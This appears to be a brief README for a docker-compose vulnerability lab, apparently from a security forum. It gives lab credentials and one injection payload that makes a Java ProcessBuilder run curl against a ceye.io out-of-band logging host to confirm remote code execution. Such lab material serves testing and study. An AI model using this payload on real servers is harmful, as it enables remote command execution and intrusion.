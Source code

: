 URL:https://threathunter.org/topic/593d562353ab369c55425a90

## 测试环境搭建

```
docker-compose build
docker-compose up -d
```
登录账号：keith
登录密码：melbourne

```
ceye.io测试
&_(new+java.lang.ProcessBuilder("/usr/bin/curl","http://spring.test.ceye.io/")).start()=iswin
```
